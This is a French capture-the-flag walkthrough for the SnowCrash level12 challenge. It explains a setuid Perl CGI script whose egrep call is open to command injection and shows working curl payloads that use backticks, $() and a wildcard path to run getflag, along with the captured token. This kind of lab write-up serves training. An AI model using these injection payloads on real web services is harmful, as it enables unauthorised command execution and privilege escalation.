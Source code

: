 ```hell
level12@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
level12@SnowCrash:~$ ./level12.pl
Content-type: text/html

..level12@SnowCrash:~$ cat level12.pl 
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```
Il s'agit d'un script Perl qui utilise le module CGI pour recevoir des paramètres d'un formulaire web et affiche un point ou deux points en fonction du résultat d'un appel de fonction.

Le script définit deux sous-routines :

    "t" prend deux paramètres ($_[0] et $_[1]) et effectue un traitement de texte sur $_[0] (en le convertissant en majuscules et en supprimant les espaces blancs finaux). Il recherche ensuite des lignes dans le fichier /tmp/xd qui commencent par $_[0] modifié et ont le motif $_[1] quelque part dans le reste de la ligne. Si une telle ligne est trouvée, la fonction renvoie 1 ; sinon, elle renvoie 0.

    "n" prend un paramètre ($_[0]) et affiche soit un point (.) soit deux points (..) selon que $_[0] est égal à 1 ou non.

La partie principale du script appelle "n" avec le résultat de l'appel de "t" avec les valeurs des paramètres "x" et "y" obtenues à partir du formulaire web.

Notez que ce script est vulnérable aux attaques d'injection de commandes, car il passe l'entrée utilisateur non sécurisée directement à la commande "egrep".

On essaie de voir s'il y a une connexion possible:
```shell
level12@SnowCrash:~$ curl -I 127.0.0.1:4646
HTTP/1.1 200 OK
Date: Tue, 21 Mar 2023 03:39:36 GMT
Server: Apache/2.2.22 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 2
Content-Type: text/html
```
OK pour utiliser la faille et injecter une commande dans `egrep "^$xx" /tmp/xd 2>&1`, on va utiliser un x= dans l'url :

x=getflag, mais on sait que avant il sera mis en majuscule. Il faut donc qu'on puisse appeler GETFLAG.

pour cela on va utiliser utiliser le wildcard:

En effet quand il y a un unique fichier on peut l'appeler par /*. Donc:
```shell
level12@SnowCrash:~$ ln -sf /bin/getflag /tmp/GETFLAG
level12@SnowCrash:~$ /*/GETFLAG
Check flag.Here is your token : 
Nope there is no token here for you sorry. Try again :)
```
Ok maintenant si je lance avec x=`/*/GETFLAG` il faut que je mette en code url:
[url encoder](https://www.urlencoder.org/)
ce qui donne : %2F%2A%2FGETFLAG
```shell
level12@SnowCrash:~$ curl '127.0.0.1:4646?x=`%2F%2A%2FGETFLAG`'
..level12@SnowCrash:
```
Mais je n'ai aucune sortie
une solution pas tres jolie mais j'ai pas trouvé mieux c'est de sortir sur l'erreur d'appache:
donc x=`/*/GETFLAG>&2 qu'on encode : %2F%2A%2FGETFLAG%3E%262
```shell
level12@SnowCrash:~$ curl '127.0.0.1:4646?x=`%2F%2A%2FGETFLAG%3E%262`'
..level12@SnowCrash:~tail /var/log/apache2/error.log`'
[...]
[Tue Mar 21 05:24:13 2023] [error] [client 127.0.0.1] Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
# deuxième solution **BEST**


on faire un un petit script *GETFLAG*

```shell
level12@SnowCrash: vi /tmp/GETFLAG
```
```shell
#!/bin/sh

getflag > /tmp/token
```
L'avantage c'est que c'est dans le script que l'on maitrise la sortie de getflag.
on peut aussi envoyer le resultat avec wall : 
```shell
getflag | wall
```
On change le chmod 755

Maintenant la commande curl ne passe pas pas les erreur de apache et on a pas besoins de coder 'url'
```shell
level12@SnowCrash:~$ curl '127.0.0.1:4646?x=`/*/GETFLAG`'

level12@SnowCrash:~$ cat /tmp/token
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
On aurait pu avec :
```shell
level12@SnowCrash:~$ curl '127.0.0.1:4646?x=$(/*/GETFLAG)'
```
